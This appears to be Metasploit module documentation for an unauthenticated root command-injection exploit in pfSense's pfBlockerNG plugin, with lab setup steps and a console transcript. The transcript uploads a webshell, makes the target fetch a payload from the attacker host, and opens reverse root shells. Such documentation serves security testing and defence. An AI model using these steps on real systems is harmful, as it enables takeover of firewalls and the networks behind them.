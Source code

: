 ## Vulnerable Application

### Description
This module exploits a vulnerability in the pfSense plugin, pfBlockerNG that allows remote unauthenticated
attackers to execute execute arbitrary OS commands as root via shell metacharacters in the HTTP Host header.
Versions =< 2.1.4_26 are vulnerable, note that version 3.X is unaffected.

### Setup
Download the pfSense image:

`wget https://atxfiles.netgate.com/mirror/downloads/pfSense-CE-2.5.2-RELEASE-amd64.iso.gz`

To obtain a vulnerable copy of the pfBlockerNG plugin, you can build it from source from the [official pfSense github
repo](https://github.com/pfsense/FreeBSD-ports/tree/devel/net/pfSense-pkg-pfBlockerNG), or it can be downloaded from
the following link:

`wget https://files01.netgate.com/pkg/pfSense_plus-v21_09_aarch64-pfSense_plus_v21_09/All/pfSense-pkg-pfBlockerNG-2.1.4_26.pkg`


Install the .iso file in your favorite virtualizing software. Once installed pfSense will start and you can accesss the
web GUI by navigating to `https://<pfSense-IP-address>/`

Sign into the application with username: `admin` password: `pfsense`

Now at the top of the screen select System -> Advanced. Scroll down to the section named Secure Shell and tick the box
beside `Enable Secure Shell`.

From your host machine we can now transfer the vulnerable package to the pfSense VM using `scp`

`scp pfSense-pkg-pfBlockerNG-2.1.4_26.pkg root@<pfSense-IP-address>:/`

(the root password of the VM will be the same as the admin password: `pfsense`)

Install the vulnerble package with:
`pkg install pfSense-pkg-pfBlockerNG-2.1.4_26.pkg`

## Options

**WEBSHELL_NAME**

This is the name of the webshell that will get uploaded to the pfsense target. If left unset the file name will get
randomly generated with a random length of either 5, 8, 11, 14 or 17 plus the file extention .php. In order to successfully
land the webshell on the target the webshell filename needs to be of the length specified above, please keep this in
mind when setting the webshell name.

## Verification Steps

1. Start msfconsole
1. Do: `use unix/http/pfsense_pfblockerng_webshell`
1. Set the `RHOST`, `LHOST` options
1. Run the module
1. Receive a cmd shell as the root user

## Scenarios
### pfSense 2.5.2-RELEASE with pfSense-pkg-pfBlockerNG-2.1.4_26.pkg installed
```
msf6 > use unix/http/pfsense_pfblockerng_webshell
[*] Using configured payload bsd/x64/shell_reverse_tcp
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set rhosts 172.16.199.131
rhosts => 172.16.199.131
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Uploading shell...
[*] Webshell name is: BrNGc.php
[+] Upload succeeded, response from running id command: uid=0(root) gid=0(wheel) groups=0(wheel)

[*] Executing BSD Dropper for bsd/x64/shell_reverse_tcp
[*] Using URL: http://172.16.199.1:8080/EYFwssRWAhtL
[*] Client 172.16.199.131 (curl/7.76.1) requested /EYFwssRWAhtL
[*] Sending payload to 172.16.199.131 (curl/7.76.1)
[*] Command shell session 4 opened (172.16.199.1:4444 -> 172.16.199.131:2036) at 2022-09-15 17:15:04 -0400
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

id
uid=0(root) gid=0(wheel) groups=0(wheel)
uname -a
FreeBSD pfSense.home.arpa 12.2-STABLE FreeBSD 12.2-STABLE fd0f54f44b5c(RELENG_2_5_0) pfSense  amd64
^C
Abort session 4? [y/N]  y

[*] 172.16.199.131 - Command shell session 4 closed.  Reason: User exit
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set target 0
target => 0
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > run

[*] Started reverse double SSL handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Uploading shell...
[*] Webshell name is: mTENCpIHTIl.php
[+] Upload succeeded, response from running id command: uid=0(root) gid=0(wheel) groups=0(wheel)

[*] Executing Unix Command for cmd/unix/reverse_openssl
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo kcejSRsHIm1IaTNd;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "kcejSRsHIm1IaTNd\n"
[*] Matching...
[*] B is input...
[*] Command shell session 5 opened (172.16.199.1:4444 -> 172.16.199.131:51321) at 2022-09-15 17:16:07 -0400

id
uid=0(root) gid=0(wheel) groups=0(wheel)
uname -a
FreeBSD pfSense.home.arpa 12.2-STABLE FreeBSD 12.2-STABLE fd0f54f44b5c(RELENG_2_5_0) pfSense  amd64
```

